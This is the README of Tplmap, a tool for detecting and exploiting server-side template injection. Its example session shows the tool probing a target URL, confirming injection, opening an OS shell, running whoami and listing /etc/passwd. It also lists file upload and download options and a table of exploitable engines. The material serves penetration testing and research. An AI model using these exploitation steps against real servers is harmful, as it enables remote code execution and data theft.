 Tplmap
======

Tplmap (short for _Template Mapper_) is a tool that automate the process of detecting and exploiting Server-Side Template Injection vulnerabilities (SSTI).

This can be used by developers, penetration testers, and security researchers to detect and exploit vulnerabilities related to the template injection attacks.

The technique can be used to compromise web servers' internals and often obtain Remote Code Execution (RCE), turning every vulnerable application into a potential pivot point.

The modular approach allows any contributor to extend the support to other templating engines or introduce new exploitation techniques. The majority of the techniques currently implemented came from the amazing research done by [James Kett, PortSwigger][1].

> The application is currently under heavy development and misses some functionalities.

Example
--------

```
$ ./tplmap.py -u 'http://www.target.com/app?id=*' 
[[+] Tplmap 0.1b
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Found placeholder in GET parameter 'id'
[+] Smarty plugin is testing reflection on text context with tag {*}
[+] Smarty plugin is testing }*{ code context escape with 6 mutations
[+] Mako plugin is testing reflection on text context with tag ${*}
[+] Mako plugin is testing }* code context escape with 6 mutations
[+] Mako plugin is testing %>*<%# code context escape with 6 mutations
[+] Jinja2 plugin is testing reflection on text context with tag {{*}}
[+] Jinja2 plugin is testing }}* code context escape with 6 mutations
[+] Jinja2 plugin is testing %}* code context escape with 6 mutations
[+] Twig plugin is testing reflection on text context with tag {{*}}
[+] Twig plugin is testing }}*{{1 code context escape with 6 mutations
[+] Twig plugin is testing  %}* code context escape with 6 mutations
[+] Freemarker plugin is testing reflection on text context with tag ${*}
[+] Freemarker plugin is testing }* code context escape with 6 mutations
[+] Velocity plugin is testing reflection on text context with tag #set($p=*)\n${p}\n
[+] Velocity plugin is testing )* code context escape with 6 mutations
[+] Velocity plugin has detected unreliable reflection with tag #set($p=*)\n${p}\n, skipping
[+] Jade plugin is testing reflection on text context with tag \n= *\n
[+] Jade plugin has confirmed injection with tag '\n= *\n'
[+] Tplmap identified the following injection point:

  Engine: Jade
  Template: \n= *\n
  Context: text
  OS: darwin
  Capabilities:
    Code evaluation: yes, javascript code
    OS command execution: yes
    File write: yes
    File read: yes

[+] Rerun tplmap providing one of the following options:
    --os-cmd or --os-shell to access the underlying operating system
    --upload LOCAL REMOTE to upload files to the server
    --download REMOTE LOCAL to download remote files
    
$ ./tplmap.py -u 'http://www.target.com/app?id=*' --os-shell
[+] Run commands on the operating system.
linux $ whoami
www-data
linux $ ls -al /etc/passwd
-rw-r--r--  1 root  wheel  5925 16 Sep  2015 /etc/passwd
linux $

```

Supported template engines
--------------------------

| Template engine    | Detection | command execution | Code evaluation | File read | File write |
|--------------------|-----------|-------------------|-----------------|-----------|------------|
| Mako               |  yes      | yes               | python          | yes       | yes        |
| Jinja2             |  yes      | yes               | python          | yes       | yes        |
| Jade               |  yes      | yes               | javascript      | yes       | yes        |
| Smarty (unsecured) |  yes      | yes               | PHP             | yes       | yes        |
| Freemarker         |  yes      | yes               | no              | yes       | yes        |
| Velocity           |  yes      | no                | no              | no        | no         |
| Twig               |  yes      | no                | no              | no        | no         |
| Smarty (secured)   |  yes      | no                | no              | no        | no         |


[1]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
